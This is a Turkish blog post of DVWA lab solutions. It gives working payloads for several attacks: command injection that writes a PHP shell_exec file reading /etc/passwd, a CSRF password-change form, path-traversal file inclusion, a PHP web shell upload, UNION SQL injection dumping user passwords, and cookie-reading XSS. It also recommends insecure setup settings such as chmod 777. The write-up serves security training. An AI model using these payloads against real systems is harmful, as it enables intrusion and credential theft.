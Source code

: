 ```yaml
---
layout: post
title: DVWA (Low-Level) Çözümleri
---
```




&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Damn Vulnerable Web App <strong>(DVWA)</strong>, savunmasız olan bir PHP / MySQL web uygulamasıdır. Ana hedefleri, güvenlik uzmanlarının yasal ortamda becerilerini ve araçlarını test etmelerine, web geliştiricilerinin web uygulamalarını güvence altına alma süreçlerini daha iyi anlamalarına ve öğretmenlerin / öğrencilerin sınıf ortamında web uygulaması güvenliğini öğrenmesine / öğretmesine yardımcı olmalarına yardımcı olmaktır .

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;GNU/Linux makinanıza DVWA kurulumu için gereken adımları aşağıda listeledik. 


	1. nano dvwa/config/config.inc.php

	_DVWA[ 'db_password' ] = 'sizin_sifeniz'; 

	2. nano /etc/php/7.0/apache2/php.ini

	allow_url_include = Off --> On      //olarak değiştiriyoruz.

	3. chmod -R 777 /var/www/html/dvwa  //Dosya İzini veriyoruz.

	4. create database dvwa;          //Veri tabanı oluşturuyoruz. 

	5. nano /etc/apache2/apache2.conf   //Dosyasına giderek an alt satıra 'ServerName localhost' 

	ekliyoruz

	6. /etc/init.d/apache2 start

	7. /etc/init.d/mysql start

	8. localhost/dvwa/setup.php          //Tarayıcıdan bu adrese giderek başlayabiliriz.



<h4>Brute Force</h4>


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Burada <strong>Burp Suite</strong> aracını kullanarak parametreler yakalayacağız ve bu parametrelere kelimelere gönderip kırmaya çalışacağız. Önce Burp Suite ile tarayıcımızı senkronize çalışır hale getirmek için aşağıdaki adımları izliyoruz.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tarayıcıdan <strong>Preferences -> Advanced -> Network -> Settings</strong> bölümüne geliyoruz. Burada Manual proxy configuration kısmını işaretleyip
<strong>HTTP Proxy : 127.0.0.1 , Port : herhangi birşey</strong> yapıp  geri kalan herşeyi boş bırakıyoruz.


 <img src="/img/brute-force/mozilla-proxy.png"> 
 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sonra Burp başlatıp Proxy Bölümüne geliyoruz. Buradan da <strong>Options</strong> bölümüne gelerek <strong>Proxy Listener</strong> sekmesine yeni bir ekleme yapıyoruz . <strong>Interface : 127.0.0.1 Port : 7777</strong> .
Bundan sonra Burp ile tarayıcımız senkronize çalışacak.  

 <img src="/img/brute-force/burp-add-proxy.png">



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sonra <strong>Intercept</strong> kısmına geliyoruz. Intercept ON 'a tıklayıp tarayıcıdan Brute Force  kısmına giriş yapmak için bir şeyler yazıp submit 
ediyoruz. Bu olurken BURP' te birtakım değişiklikler olduğunu görüyoruz.

 <img src="/img/brute-force/catch-info.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>GET</strong> sonucunu aldıktan sonra gelen bütün datayı seçip <strong>INTRUDER</strong> bölümüne gönderiyoruz. 
Orada '$' işaretlerini temizliyoruz. USERNAME ve PASSWORD kısmındakiler kalıyor. 
Çünkü değiştirip wordlist saldirisi şeklinde bu değişkenleri yollayacağız. Oturum bilgisi ve diğer değişkenler sabit kalacak.

 <img src="/img/brute-force/parameters.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sonrasında aynı sayfada atak tipini <strong>'Cluster Bomb'</strong> olarak değiştiriyoruz. Sonra <strong>Payloads</strong> Bölümüne gelip 'Payload Set =1' yapıyoruz. Önce username için yollayacağımız kelimeleri
bu payload set altına dolduruyoruz. Sonrasında 'Payload Set =2' yapıp burada da password için 
yollayacağımız  kelimeleri ekliyoruz. Sonrasında 'Options' bölümüne geliyoruz. Burada 
<strong>'Grep-Match'</strong> kısmına sonucumuz doğru olduğu takdirde dönen değerin ne olacağı tahmini yapmamız gerekiyor. Eşleştiğinde username ve password değerlerimizin doğru olduğunu anlarız. 


 <img src="/img/brute-force/result.png">


<h4>Command Injection</h4>


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Önce ping için istedeği ip adresini verdikten sonra şöyle yazarak :

	1. 127.0.0.1 && echo "Ctr1l" 

ping işlemlerinin altında yazdığımız komutun sonucunu görüyoruz. Buradan 
"Command Injection" yapılabildiğini anlıyoruz.Devamında

	1. 192.168.0.1 && echo "<?php echo shell_exec('cat /etc/passwd')  ?>" >> test.php
	2. http://localhost/DVWA-master/vulnerabilities/exec/test.php


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Passwd</strong> dosyasını ekrana bastıracak bir PHP kodu yazdık ve bunu içeriye test.php olarak yolladık. Bu sayfaya gittiğimizde passwd dosyasının içeriğini görüyoruz.



<h4>CSRF</h4>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Kaynağı görüntüleyip şifre değiştirme formunu alıyoruz. Buraya göndermek istediğmiz datayı <strong>'value'</strong> olarak kodumuza ekliyoruz. Sonra bu verilerin nereye gideceğini belirtmemiz gerekiyor. Bunu da "http://localhost/DVWA-master/vulnerabilities/csrf/?"   olarak görüyoruz ve <strong>#</strong> kısmını buna göre düzenliyoruz.

	<html>


	<form action="http://localhost/DVWA-master/vulnerabilities/csrf/?" method="GET">
	New password:<br />
	<input type="password" AUTOCOMPLETE="off" name="password_new" value="ctr1l"><br />
	Confirm new password:<br />
	<input type="password" AUTOCOMPLETE="off" name="password_conf" value="ctr1l"><br />
	<br />
	<input type="submit" value="Change" name="Change">

	</form>

	</html>


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu kodu tarayıcımızda çalıştırdığımızda asıl şifre değiştirme formumuzu doldurduğunu ve şifrenin değiştirildiğini görüyoruz.











<h4>File Inclusion</h4>

	1. http://localhost/DVWA-master/vulnerabilities/fi/?page=/etc/passwd

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Tarayıcıdan yazdığımızda  önümüzde /etc/passwd dosyası açılıyor.
Deneyerek dizinler arası dolaşarak farklı dosyalara ulaşabiliriz.

	1. http://localhost/DVWA-master/vulnerabilities/fi/?page=../../../../../../var/www/html/index.html



<h4>File Upload</h4>

	1. <?php echo shell_exec('cat /etc/passwd')  ?>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu kodu içeren dosyayı upload edip sisteme kendi php sayfamızı yüklemiş oluyoruz. Çeşitli işlemler yapacak sayfayı
oluşturmak bize kalıyor. Bu ssayfaya gidecek olursak passwd dosyasının içeriğini görebiliriz.

	1. http://localhost/DVWA-master/hackable/uploads/shell.php

<h4>SQL Injection</h4>


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Boş alana 'or 1 or' yaptıktan sonra sorgu inject edebileceğimizi anlıyoruz ve tüm isimleri listeliyoruz.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Sonrasında kaç tane sütunumuz olduğunu anlamak için <strong>'order by 1 #, 'order by 2 # , 'order by 3 # </strong>
ifadelerini denerken 3'te hata alıyoruz. Buradan içeride 2 tane sütunumuz olduğunu anlıyoruz.
Bundan sonraki ifadelerimizi buna göre yazacağız.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Önce <strong>database</strong> ve <strong>versiyon</strong> bilgisi için şu sorguyu gönderiyoruz.

	1. 'union select database(),version() 

<img src="/img/sqli/database-version.png">





&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Tablo</strong> bilgileri için şu sorguyu gönderiyoruz.

	1. 'union select table_name,2 from information_schema.tables #

<img src="/img/sqli/tables.png">


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<strong>Kullanıcı bilgileri</strong> için gönderdiğimiz sorgu da şu şekilde : 

	1. 'union select user,password from users #

<img src="/img/sqli/users.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Bu şekilde devam ederek çeşitli bilgileri edinebiliriz.



<h4>XSS (Reflected)</h4>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Gelecek olan tepkiyi görmek için şöyle bir betik yolluyoruz. Buradan gelen <strong>'HELLO'</strong> mesajından da anlayacağımız üzere kodlarımızı çalıştırabileceğimizi anlıyoruz.

	1. <script>alert("Ctr1l")</script>



<h4>XSS (Stored)</h4>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Reflected kısmındaki gibi bir denemeyle kod çalıştırabileceğimizi anlıyoruz.

	1. <script>alert(document.cookie)</script>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Artık kodumuz içeride saklanıyor. Her ekleme yapmak istediğimizde ekleme işleminin yanında o  kodumuz da çalışacak ve  verilen görevi yapacak.











































